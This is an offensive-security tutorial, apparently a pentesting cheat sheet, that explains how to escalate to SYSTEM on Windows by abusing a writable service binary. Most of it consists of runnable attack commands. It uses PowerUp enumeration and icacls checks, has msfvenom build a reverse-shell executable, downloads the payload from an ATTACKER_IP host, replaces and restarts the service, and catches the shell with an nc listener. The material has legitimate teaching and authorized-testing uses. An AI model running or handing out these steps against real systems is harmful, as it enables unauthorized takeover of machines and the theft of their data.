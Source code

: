 **Insecure service permissions** in Windows can allow local privilege escalation if a low-privileged user can modify or replace the executable of a service running with SYSTEM privileges. This technique involves identifying misconfigured services, verifying write permissions, replacing the service binary with a malicious payload, and restarting the service to gain elevated access.

---

## 1. Enumerate Vulnerable Services

Use `PowerUp` or similar tools to find services with weak permissions.

```powershell
# Run PowerUp to find vulnerable services
Invoke-AllChecks
```

Look for output like:

```
ModifiableService - Name: VulnService - Path: C:\Program Files\VulnService\service.exe
```

---

## 2. Verify Permissions on the Service Executable

Check if your user has write access to the service binary.

```powershell
# Check permissions on the service executable
icacls "C:\Program Files\VulnService\service.exe"
```

Look for something like:

```
BUILTIN\Users:(I)(F)
```

This means users can **fully control** the file.

---

## 3. Generate a Malicious Payload with msfvenom

On your Kali machine, create a reverse shell payload named exactly like the service executable.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f exe -o service.exe
```

Replace `YOUR_IP` and `YOUR_PORT` with your Kali listener details.

---

## 4. Transfer the Payload to the Windows Machine

Use SMB, Python HTTP server, or any file transfer method.

```bash
# Example using Python HTTP server
python3 -m http.server 8080
```

On Windows (PowerShell):

```powershell
Invoke-WebRequest -Uri "http://ATTACKER_IP:8080/service.exe" -OutFile "C:\Program Files\VulnService\service.exe"
```

---

## 5. Replace the Original Executable

Overwrite the existing service binary with your payload.

```powershell
# Backup original (optional)
Copy-Item "C:\Program Files\VulnService\service.exe" "C:\Program Files\VulnService\service_backup.exe"

# Replace with malicious payload
Copy-Item "C:\Users\Public\service.exe" "C:\Program Files\VulnService\service.exe" -Force
```

---

## 6. Restart the Service

Trigger the service to run your payload.

```powershell
# Restart the vulnerable service
Restart-Service -Name "VulnService"
```

---

## 7. Catch the Reverse Shell

On Kali, start your listener:

```bash
nc -lvnp YOUR_PORT
```

Once the service restarts, you should receive a shell with SYSTEM privileges.
